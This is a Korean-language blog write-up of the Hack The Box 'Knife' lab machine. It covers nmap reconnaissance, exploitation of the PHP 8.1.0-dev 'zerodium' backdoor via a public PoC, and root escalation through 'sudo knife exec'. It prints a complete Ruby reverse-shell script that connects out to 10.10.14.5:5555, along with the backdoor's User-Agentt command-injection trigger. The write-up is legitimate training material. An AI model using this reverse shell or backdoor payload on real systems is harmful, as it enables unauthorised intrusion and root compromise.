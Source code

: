 ```yaml
---
layout: post
title: Hack The Box - Knife
subtitle: Hack the box Knife machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/knife/pwned.png
tags:
  [
    writeup,
    hackthebox,
    knife,
    xss,
    eval,
  ]
author: Hong
---
```


# nmap

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 02:26 EDT
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.57 seconds
```

# 웹서버

`curl -I $IP`

```
HTTP/1.1 200 OK
Date: Fri, 30 May 2025 00:38:54 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

php의 버전을 확인.

혹시 취약점이 있는지 구글링.

[poc](https://www.exploit-db.com/exploits/49933)를 발견했다.

poc를 실행하면 james의 쉘이 연결된다.

![james](/assets/img/writeup/HTB/knife/james.png)

# 권한상승

james의 홈 디렉토리에 ssh폴더 확인.
authorized_keys 파일을 생성 후 public key를 추가해서 ssh로 다시 연결.

`sudo -l`

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

knife라는 서비스를 sudo 권한으로 사용할 수 있다.

매뉴얼을 살펴보니 knife의 명령어중에 exec라는 명령어를 발견했다.

https://docs.chef.io/workstation/knife_exec/

위의 커맨드로 루비 스크립트를 실행할 수 있다고 한다.

![exec](/assets/img/writeup/HTB/knife/exec.png)

루비로 리버스쉘을 작성 후 knife로 실행하기로 했다.

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 5555, '10.10.14.5'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

작성 후 아래의 커맨드를 실행하면 root로 연결됐다.

`sudo /usr/bin/knife exec /home/james/rev.rb`

![root](/assets/img/writeup/HTB/knife/root.png)

나중에 알았지만 gtfo bin에도 knife의 sudo가 있기 때문에 더 간단히 root 쉘을 얻는 방법도 있다.

# 취약점

## 백도어 코드

이 취약점의 문제는 백도어 코드가 적혀있었다는 것이다.

![poc](/assets/img/writeup/HTB/knife/poc.png)

이미지를 보면 zerodium 문자열로 시작할 경우 8글자 뒤 부터 입력되는 코드를 실행하는 함수가 적혀있다.

위의 코드대로라면 아래의 명령어처럼 시스템 명령어를 입력하는게 가능하다.

`User-Agentt: zerodiumsysytem(“ls”);`

악의적으로 삽입된 백도어 코드였다고 하는데 다행히 금방 발견되서 문제없던 코드로 리버트 됐다고 한다.

eval() 함수의 위험성을 다시 배울 수 있었다.

# 참고자료

- https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://news-web.php.net/php.internals/113838

